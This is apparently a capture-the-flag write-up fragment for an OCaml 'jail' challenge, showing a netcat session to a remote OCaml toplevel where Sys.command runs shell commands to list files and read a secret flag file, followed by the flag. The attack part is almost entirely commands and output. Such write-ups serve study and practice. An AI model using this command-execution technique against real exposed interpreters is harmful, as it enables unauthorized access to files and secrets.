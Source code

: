 ```sh
mj0ln1r@Linux:~/ojail$ nc 20.169.252.240 4201
        OCaml version 4.08.1

# Sys.command "ls";;
Dockerfile
build.sh
flag.txt
secret
- : int = 0
# Sys.command "ls secret";;       
flag-1d573e0faa99.json
- : int = 0
# Sys.command "cat secret/flag-1d573e0faa99.json";;
{
    "message": "Flag is here. OCaml syntax is easy, right?",
    "flag": "cvctf{J41L3d_OOOO-C4mL@@}"
}- : int = 0
# 

```

> `Flag : cvctf{J41L3d_OOOO-C4mL@@}`
 
***